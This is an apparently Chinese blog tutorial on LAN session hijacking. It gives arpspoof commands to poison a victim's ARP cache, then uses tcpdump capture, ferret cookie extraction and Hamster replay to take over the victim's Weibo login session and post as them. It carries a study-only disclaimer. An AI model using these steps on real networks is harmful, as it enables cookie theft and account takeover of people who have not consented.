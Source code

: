 ```yaml
---
layout: post
title: 内网王者之会话劫持
date: 2017-04-15 01:02:14
comments: true
tags:
	- 安全攻防
---
```


### 前言
><font color="#ff0000">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**文中提及的部分技术，可能带有一定攻击性，仅供安全学习和教学用途，禁止非法使用！**</font>

### 正文
>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;同样不做多介绍，我们来使用ettercap这个老牌利器来完成这次实验。<!--more-->

受害者
 ![](/images/pasted-63.PNG)

攻击者
 ![](/images/pasted-64.PNG)


### 环境

用到的工具

 * ferret 
 * tcpdump 
 * Hamster

其中ferret没有64位的，如果用的64位系统，需要安卓32位的ferret，而32位自带ferret。

添加对32位应用程序的支持

 * dpkg --add-architecture i386

安装32位ferret

 * sudo aptitude install ferret-sidejack:i386


### 攻击

首先arp走一波，前面的文章我有介绍到ettercap，今天这里介绍一个小巧的arp工具。arpspoof 

 * arpspoof -i eth0 -t 192.168.1.1 192.168.1.101
 * -i 网卡名
 * -t 网关和受害者ip

![](/images/pasted-83.jpg)


然后使用tcpdump来捕获数据包。
 * tcpdump -i eth0 -w data.cap
 * -i 网卡名
 * -w 保存的数据包

![](/images/pasted-84.jpg)

**这个时候受害者登录微博。**


这个时候数据包中的数据都是受害者的网络请求数据，其中包含着cookies.

然后使用ferret来处理数据包。

 * ferret -r data.cap

![](/images/pasted-85.jpg)


处理完成后会在本地生成一个hamster.txt文件。

然后运行hamster。

![](/images/pasted-86.jpg)

我们需要打开设置代理。

![](/images/pasted-80.jpg)

设置完成后，打开浏进入127.0.0.1:1234，这时候里面的数据都是受害者的所有网络请求数据，包含着登录信息。找到登录后的信息。

![](/images/pasted-87.jpg)

劫持成功。

![](/images/pasted-82.jpg)

同时也可以发微博

![](/images/pasted-81.jpg)